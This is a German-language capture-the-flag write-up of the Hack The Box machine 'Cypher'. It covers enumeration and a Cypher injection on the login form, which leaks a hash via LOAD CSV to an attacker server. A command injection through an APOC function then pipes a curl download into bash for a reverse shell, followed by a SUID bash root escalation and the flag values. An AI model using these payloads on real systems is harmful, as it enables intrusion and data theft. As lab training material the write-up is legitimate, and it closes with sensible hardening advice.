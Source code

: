 # Maschine 2: Cypher

## 1. Netzwerkanbindung

```bash
sudo openvpn ~/Desktop/lab_lyfe691.ovpn
```

![Bild → vpn_connected.png</code>](image.png)

---

## 2. Zielerkennung & Vorbereitung

Ziel-IP von HTB erhalten: 10.10.11.57

Vollständiger nmap‑Scan mit Versionserkennung, OS‑Erkennung, Scripts und Aggressivität T4:

```bash
nmap -sV -A -T4 10.10.11.57 -oN nmap_cypher.txt
```

Output zeigt SSH und HTTP:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

![alt text](Screenshot_2025-05-05_14_11_01.png)

Wir testen den HTTP‑Zugang über den Browser und merken schnell, dass die Seite cypher.htb erwartet – wir werden automatisch redirected.

Daher passen wir die /etc/hosts Datei an:

```bash
10.10.11.57   cypher.htb
```

![alt text](Screenshot_2025-05-05_14_12_29-1.png)

---

## 3. Web‑Enumeration & Eingabeprüfung

Direkt auf http://cypher.htb zeigt sich eine Landing page mit login maske.

![alt text](Screenshot_2025-05-05_16_06_14.png)

Wir testen mit  dirsearch, um weitere Pfade zu finden:

Dirsearch‑Treffer:

```
/about
/api/  -> /api/docs
/demo  -> /login
/login
/testing/
```

![alt text](Screenshot_2025-05-05_14_28_23-2.png)

Der Login meldete bei manipulierten Eingaben einen Neo4j‑Fehler – Beweis für unsichere String‑Konkatenation.

![alt text](Screenshot_2025-05-05_14_49_33-1.png)

Das ist ein starker Hinweis: Backend nutzt Neo4j und unsichere String‑Konkatenation. Wir entscheiden uns, gezielt Cypher‑Injection zu testen.

---

## 4. Datenabfluss mit LOAD CSV auslösen

Python‑HTTP‑Server (Port 8000) gestartet, dann Payload:

```json
{
  "username": "admin' OR 1=1  LOAD CSV FROM 'http://10.10.14.204:8000/leak='+h.value AS y RETURN ''//",
  "password": "123"
}
```

Server‑Log zeigte die Abfrage inkl. Hash:

```
GET /leak=9f54ca... HTTP/1.1
```

![alt text](Screenshot_2025-05-05_15_19_21.png)

---

## 5. RCE mit getUrlStatusCode() via APOC

`shell.sh` wurde per HTTP ausgeliefert, Listener auf Port 9001.

Payload:

```json
{
  "username": "admin' RETURN h.value AS value UNION CALL custom.getUrlStatusCode('127.0.0.1;curl http://10.10.14.204:8000/shell.sh|bash;') YIELD statusCode AS value RETURN value;//",
  "password": "123"
}
```

Die Shell poppte als **neo4j**:

```
uid=997(neo4j) gid=995(neo4j)
```

![alt text](Screenshot_2025-05-05_15_48_30-1.png)

---

## 6. Privilege Escalation → root

1. **Passwort in `bbot_preset.yml`** gefunden (Zeile 10).
2. Da `su graphasm` scheiterte, setzten wir mittels SUID‑Bash direkt auf root:

```bash
/tmp/bash -p
root@cypher:/# id
uid=0(root) gid=0(root)
```

![alt text](Screenshot_2025-05-05_15_50_40.png)

------------------------------------------------------

7. Flags

```bash
/home/graphasm/user.txt  -> 0a4de27fa731a210ead73b20dfc80140
/root/root.txt           -> e5577526fb5f80c5cb113cde4111ab3d
```
![alt text](<Screenshot 2025-05-05 at 15-53-50 Hack The Box Hack The Box.png>)

link: https://www.hackthebox.com/achievement/machine/2350832/650

---

## 8. Empfehlungen

1. **Parametrisierte Cypher‑Queries** einsetzen, niemals Strings konkatenieren.
2. Unsichere APOC‑Funktionen entfernen oder absichern.
3. **sudo‑Rechte** auf das notwendige Minimum beschränken.
4. Keine Klartext‑Passwörter in Konfigurationsdateien.

---

✅ **Cypher komplett owned**
